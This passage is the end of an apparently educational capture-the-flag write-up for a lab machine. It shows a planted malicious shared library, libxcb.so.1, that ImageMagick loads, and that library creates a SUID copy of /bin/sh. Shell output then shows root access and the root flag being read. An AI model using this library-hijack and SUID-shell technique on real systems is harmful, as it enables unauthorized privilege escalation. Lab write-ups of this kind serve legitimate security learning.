system("cp /bin/sh /tmp && chmod u+s /tmp/sh");
exit(0);
}
EOF
```

This `libxcb.so.1` file will be loaded by Magick and it will make a new copy of `/bin/sh` with SUID permissions, so we can execute it and get a root shell. Now we have to wait up to a minute for the script to be executed.

```sh
developer@titanic:/tmp$ ./sh -p
# id
uid=1000(developer) gid=1000(developer) euid=0(root) groups=1000(developer)
# cat /root/root.txt
4b7fba7422bcd1bf6d48799cc5d1****
```

That second flag was certainly a lot harder than the user flag!
